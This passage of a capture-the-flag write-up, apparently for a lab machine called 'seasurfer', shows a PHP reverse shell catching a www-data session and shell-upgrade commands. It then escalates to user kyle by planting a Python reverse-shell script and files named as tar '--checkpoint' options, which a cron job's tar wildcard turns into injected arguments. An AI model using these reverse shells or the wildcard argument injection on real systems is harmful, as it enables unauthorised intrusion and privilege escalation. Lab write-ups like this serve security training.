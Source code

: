 https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php

```
└─$ nc -lvnp 1234
listening on [any] 1234 ...
connect to [10.8.97.245] from (UNKNOWN) [10.10.137.138] 49238
Linux seasurfer 5.4.0-107-generic #121-Ubuntu SMP Thu Mar 24 16:04:27 UTC 2022 x86_64 x86_64 x86_64 GNU/Linux
 09:22:20 up  3:11,  1 user,  load average: 0.01, 0.02, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
```

```bash
python3 -c 'import pty;pty.spawn("/bin/bash")'
export TERM=xterm
# ctrl+z
stty raw -echo; fg
```
# PrivEsc to User
```
www-data@seasurfer:/var/www/internal$ cd maintenance/
www-data@seasurfer:/var/www/internal/maintenance$ cat backup.sh 
#!/bin/bash

# Brandon complained about losing _one_ receipt when we had 5 minutes of downtime, set this to run every minute now >:D
# Still need to come up with a better backup system, perhaps a cloud provider?

cd /var/www/internal/invoices
tar -zcf /home/kyle/backups/invoices.tgz *
```
there is wildcard in tar command
https://www.gnu.org/software/tar/manual/html_section/checkpoints.html
then create a shell and a checkpoint
```bash
echo $'/usr/bin/python3 -c \'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"10.8.97.245\",1337));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn(\"/bin/sh\")\'' > shell.sh

echo "" > "--checkpoint-action=exec=sh shell.sh"
echo "" > --checkpoint=1
```

```bash
└─$ nc -lvnp 1337                         
listening on [any] 1337 ...
connect to [10.8.97.245] from (UNKNOWN) [10.10.137.138] 42634
$ whoami
whoami
kyle
```
